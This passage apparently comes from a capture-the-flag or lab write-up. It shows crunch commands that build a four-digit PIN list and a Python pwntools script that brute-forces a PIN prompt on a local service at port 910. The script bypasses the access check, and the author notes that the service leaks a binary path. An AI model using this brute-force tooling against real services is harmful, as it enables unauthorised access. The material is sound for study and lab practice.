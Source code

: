 Now that I can start testing how the application works, with `crunch` I can generate a custom dictionary with values for the **PIN code** and create an exploit written in **Python** to perform a brute force attack and bypass the access restriction. After solving a problem in the installation of the **pwn** library, since I had to configure an environment for **Python** I manage to run the script and get the correct **PIN**. The task of the application is the transfer of **e-coins**, but the most interesting thing is that it leaks the absolute path of the binary used by the application.

```bash
nc localhost 910
crunch 4 4 -t %%%% | head -n 10
crunch 4 4 -t %%%% > pins

cat pins | wc -l
nvim brute_force.py
python3 brute_force.py
pip3 install pwn

python3 -m venv .
./bin/pip3 install pwn
./bin/python3 brute_force.py 2>/dev/null
cat brute_force.py
```

> **brute_force.py**:

```python
#!/usr/bin/python3

import pdb
from pwn import *

def ctrl_c(sig,frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, ctrl_c)

def bruteForceAttack():

    f = open("pins", "r")
    p1 = log.progress("Brute Force Attack")
    time.sleep(2)

    for pin in f.readlines():
        
        p1.status(b"Testing PIN: " + pin.strip("\n").encode())
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("127.0.0.1", 910))
        
        data = s.recv(4096)

        s.send(pin.encode())

        data = s.recv(1024)
        if b"Access denied, disconnecting client...." not in data:

            p1.success(b"The PIN is " + pin.strip('\b').encode())
            sys.exit(0)


if __name__ == '__main__':

    bruteForceAttack()
```
